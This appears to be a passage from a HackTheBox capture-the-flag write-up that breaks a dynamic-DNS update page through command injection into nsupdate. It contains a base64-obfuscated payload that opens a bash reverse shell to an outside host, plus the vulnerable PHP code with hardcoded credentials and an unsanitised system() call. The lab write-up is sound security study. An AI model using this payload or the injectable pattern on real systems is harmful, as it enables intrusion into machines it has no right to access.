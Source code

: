 To accelerate the testing process I moved this in a bash script:

```bash
./fuzz.sh $'heyhey'
# HTTP/1.1 200 OK
# Date: Wed, 15 Sep 2021 07:55:52 GMT
# Server: Apache/2.4.41 (Ubuntu)
# Content-Length: 13
# Content-Type: text/html; charset=UTF-8

# good 1.2.3.4
```

### Breaking out

With `";` in the hostname, the server displays the command instead of executing it:

```
server 127.0.0.1
zone dynamicdns.htb
update delete 
good 1.2.3.4
```

From this output we gather:

- the first 3 lines are the actual query, formed from the input
- the last line is the custom feedback from the server (different from nsupdate output)
- the subdomain `";` (empty since it breaks the command) appears on the third
  line, which is incomplete

These 3 lines are somehow passed on to nsupdate: may-be through a pipe, may-be
through a file.

After an embarassing amount of fuzzing I finally broke out with:

```bash
./fuzz.sh $'"|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjIuMy40Lzk5OTkgMD4mMQ== |base64 -d|bash;'
```

In the end, the update page logic is:

```php
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
```

[author-profile]: https://app.hackthebox.eu/users/77141
[leaks]: images/leaks.png
[no-ip-doc]: https://www.noip.com/integrate/response